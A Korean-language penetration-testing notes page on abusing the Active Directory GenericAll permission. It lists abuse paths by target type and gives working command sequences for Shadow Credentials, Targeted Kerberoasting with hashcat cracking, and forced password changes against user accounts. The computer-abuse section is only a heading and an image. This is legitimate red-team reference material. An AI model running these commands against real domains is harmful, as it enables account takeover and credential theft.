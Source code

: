 # GenericAll

* 대상의 거의 모든 액티브 디렉토리 특성을 READ/WRITE 할 수 있는 권한. 사실상 대상의 소유권한(Owner Rights)을 가지고 있는 것이나 다름 없다. 대상의 종류와 상관 없이 (유저, 컴퓨터, 그룹, 도메인) 사실상 대상을 바로 장악할 수 있다.
* 공식 액티브 디렉토리 권한

대상에 따라 `GenericAll` DACL을 악용할 수 있는 방법도 다르다.&#x20;

* 유저: 계정 장악
* 컴퓨터: 머신 계정 장악 + 로컬 관리자 권한 획득
* 그룹: 그룹에 공격자 유저 추가
* 도메인: DCSync 기능 사용 가능

<figure><img src="../../.gitbook/assets/genericAll-FullControl.png" alt=""><figcaption></figcaption></figure>

## 악용 - 유저&#x20;

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp (1).png" alt=""><figcaption></figcaption></figure>

1. Shadow Credentials: `msDS-KeyCredentialsLink` 에 공격자 공개 키를 추가한 뒤, PKINIT을 이용해 사용자 인증을 한다
2. Targeted Kerberoast: 대상 유저 계정에 SPN을 추가한 뒤 해당 유저만 Kerberoasting 공격을 실행한다
3. Force Change Password: 대상 유저 계정의 비밀번호를 강제로 바꾼다



### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

### Targeted Kerberoast

```
git clone https://github.com/ShutdownRepo/targetedKerberoast.git

python3 targetedKerberoast.py -v -d domain.com -u attacker -p pass --request-user targetUser --only-abuse

hashcat -a 0 -m 13100 <hash> <wordlist> 
```

### Force Change Password

```
# 윈도우 머신 필요. TODO: Impacket이나 다른 툴 알아보기 
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```



## 악용 - 컴퓨터&#x20;

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp.png" alt=""><figcaption></figcaption></figure>



